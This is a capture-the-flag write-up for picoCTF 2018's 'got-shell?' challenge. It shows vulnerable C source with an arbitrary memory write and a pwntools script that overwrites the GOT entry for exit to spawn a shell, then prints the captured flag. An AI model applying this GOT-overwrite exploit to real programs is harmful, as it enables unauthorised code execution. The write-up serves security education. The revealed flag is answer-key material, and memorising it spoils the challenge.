

*checksec auth*

```
~/ctf_writeups/pico2018/binary/got-shell?# checksec auth
[*] '/root/ctf_writeups/pico2018/binary/got-shell?/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
~/ctf_writeups/pico2018/binary/got-shell?# 
```

Lets disect the souce

### auth.c

They are nice enough to give us a win() function that pops a shell. We just have to navigate there somehow
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}
```
So we can write an address using scanf. Seems very nice of them. Perhaps we can write the GOT exit function to return to win()

```c
int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

## Strategy

1. Find the address of win() and the global offset entry for exit().
2. Send the exit address, then send the win function after
3. cat the flag

### apple.py

```python
#!/usr/bin/env python

from pwn import *
import sys

#get addresses
e = ELF('./auth')
win = e.symbols['win']
exit = e.got['exit']

context.log_level = 'info'

argc = len(sys.argv)

#local or remote
while True:
	if argc > 1:
		p = remote('2018shell.picoctf.com', 46464)
	else:
		p = process('./auth')

	#overwrite exit address with win address and cat the flag
	p.sendlineafter('\n', hex(exit)[2:])
	p.sendlineafter('\n', hex(win)[2:])
	p.sendline('cat flag.txt')
	try:
		#attempt to print the flag
		print p.recvuntil('}')
		p.close()
		break
	except:
		p.close()

	p.close()
```

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/got-shell?# python apple.py test
[*] '/root/ctf_writeups/pico2018/binary/got-shell?/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
[*] Closed connection to 2018shell.picoctf.com port 46464
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
[*] Closed connection to 2018shell.picoctf.com port 46464
[+] Opening connection to 2018shell.picoctf.com on port 46464: Done
Okay, writing 0x804854b to 0x804a014
Okay, exiting now...

picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
[*] Closed connection to 2018shell.picoctf.com port 46464
~/ctf_writeups/pico2018/binary/got-shell?# ^C
~/ctf_writeups/pico2018/binary/got-shell?# 
```
</details>